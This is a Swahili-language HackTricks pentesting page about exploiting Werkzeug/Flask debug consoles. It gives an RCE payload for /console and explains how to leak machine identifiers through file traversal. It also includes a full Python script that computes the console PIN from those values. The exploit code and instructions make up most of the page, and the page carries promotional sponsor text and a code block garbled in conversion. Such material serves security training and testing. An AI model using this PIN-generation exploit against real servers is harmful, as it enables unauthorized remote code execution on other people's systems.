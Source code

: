 # Werkzeug / Flask Debug

<details>

<summary><strong>Jifunze kuhusu kuhack AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Usanidi wa papo hapo wa upimaji wa udhaifu & uchunguzi wa kuingilia**. Tekeleza pentest kamili kutoka popote na zana na vipengele zaidi ya 20 ambavyo vinakwenda kutoka uchunguzi hadi ripoti. Hatuchukui nafasi ya wapimaji wa pentest - tunatengeneza zana za desturi, moduli za ugunduzi & uchomaji ili kuwarudishia muda wa kuchimba kwa kina, kufungua makabati, na kufurahi.

{% embed url="https://pentest-tools.com/" %}

## Console RCE

Ikiwa kurekebisha iko hai unaweza kujaribu kupata ufikivu wa `/console` na kupata RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (317).png>)

Kuna pia mianya kadhaa kwenye mtandao kama [hii](https://github.com/its-arun/Werkzeug-Debug-RCE) au moja kwenye metasploit.

## Pin Iliyolindwa - Uvamizi wa Njia

Katika baadhi ya matukio, **`/console`** mwisho utalindwa na pin. Ikiwa una **mianya ya upitishaji wa faili**, unaweza kuvuja habari zote muhimu kuzalisha pin hiyo.

### Uvamizi wa PIN ya Konsoli ya Werkzeug

Lazima ulete ukurasa wa kosa la debug katika programu ili uone hili:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Ujumbe kuhusu hali ya "console imefungwa" unakutwa wakati wa kujaribu kupata ufikiaji wa interface ya uchunguzi ya Werkzeug, ukionyesha hitaji la PIN kufungua console. Sifa inapendekezwa kuchunguza PIN kwa kuchambua algorithm ya kizazi cha PIN katika faili ya uanzishaji wa uchunguzi ya Werkzeug (`__init__.py`). Mfumo wa kizazi cha PIN unaweza kusomwa kutoka kwenye [**repo ya msimbo wa chanzo cha Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), ingawa inashauriwa kupata msimbo halisi wa seva kupitia udhaifu wa upitishaji wa faili kutokana na tofauti za matoleo yanayowezekana.

Kwa kuchambua PIN ya console, seti mbili za vitu, `probably_public_bits` na `private_bits`, zinahitajika:

#### **`probably_public_bits`**

* **`username`**: Inahusu mtumiaji aliyeanzisha kikao cha Flask.
* **`modname`**: Kawaida inateuliwa kama `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Kwa kawaida inaelekeza kwa **Flask**.
* **`getattr(mod, '__file__', None)`**: Inawakilisha njia kamili ya `app.py` ndani ya saraka ya Flask (k.m., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Ikiwa `app.py` haifai, **jaribu `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Inapata anwani ya MAC ya mashine ya sasa, na `str(uuid.getnode())` ikiiweka katika muundo wa desimali.
* Ili **kutambua anwani ya MAC ya seva**, mtu lazima aitambue kiolesura cha mtandao kinachotumiwa na programu (k.m., `ens3`). Katika hali ya kutokuwa na uhakika, **vuja `/proc/net/arp`** kwa kutafuta kitambulisho cha kifaa, kisha **chimbua anwani ya MAC** kutoka **`/sys/class/net/<kitambulisho cha kifaa>/anwani`**.
* Ubadilishaji wa anwani ya MAC ya hexadecimal kuwa desimali unaweza kufanywa kama inavyoonyeshwa hapa chini:

```python
# Mfano wa anwani ya MAC: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

* **`get_machine_id()`**: Inaunganisha data kutoka `/etc/machine-id` au `/proc/sys/kernel/random/boot_id` na mstari wa kwanza wa `/proc/self/cgroup` baada ya mshale wa mwisho (`/`).

<details>

<summary>Msimbo wa `get_machine_id()`</summary>

\`\`\`python def get\_machine\_id() -> t.Optional\[t.Union\[str, bytes]]: global \_machine\_id

if \_machine\_id is not None: return \_machine\_id

def \_generate() -> t.Optional\[t.Union\[str, bytes]]: linux = b""

## machine-id is stable across boots, boot\_id is not.

for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot\_id": try: with open(filename, "rb") as f: value = f.readline().strip() except OSError: continue

if value: linux += value break

## Containers share the same machine id, add some cgroup

## information. This is used outside containers too but should be

## relatively stable across boots.

try: with open("/proc/self/cgroup", "rb") as f: linux += f.readline().strip().rpartition(b"/")\[2] except OSError: pass

if linux: return linux

## On OS X, use ioreg to get the computer's serial number.

try:

````
</details>

Baada ya kukusanya data zote muhimu, script ya exploit inaweza kutekelezwa ili kuzalisha PIN ya konsoli ya Werkzeug:

Baada ya kukusanya data zote muhimu, script ya exploit inaweza kutekelezwa ili kuzalisha PIN ya konsoli ya Werkzeug. Script hutumia `probably_public_bits` na `private_bits` zilizokusanywa kuunda hash, ambayo kisha hupitia usindikaji zaidi ili kuzalisha PIN ya mwisho. Hapa chini ni msimbo wa Python wa kutekeleza mchakato huu:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
````

Hii script inazalisha PIN kwa kuhakiki bits zilizounganishwa, kuongeza salts maalum (`cookiesalt` na `pinsalt`), na kuumbua matokeo. Ni muhimu kuzingatia kuwa thamani halisi za `probably_public_bits` na `private_bits` lazima zipatikane kwa usahihi kutoka kwenye mfumo lengwa ili kuhakikisha PIN iliyozalishwa inalingana na ile inayotarajiwa na konsoli ya Werkzeug.

Ikiwa uko kwenye **toleo la zamani** la Werkzeug, jaribu kubadilisha **algorithimu ya hashing kuwa md5** badala ya sha1.

### Marejeo

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)

<img src="../../.gitbook/assets/image (2) (1) (1).png" alt="" data-size="original">

**Usanidi wa papo hapo wa upimaji wa udhaifu & upenyaji wa mtihani**. Tekeleza pentest kamili kutoka popote uendapo na zana na vipengele zaidi ya 20 vinavyoanzia uchunguzi hadi kuripoti. Hatuchukui nafasi ya wapimaji wa pentesting - tunatengeneza zana za desturi, moduli za ugunduzi & uchexploitation ili kuwarudishia muda wa kuchimba kwa kina, kuvunja mifumo, na kufurahi.

</details>
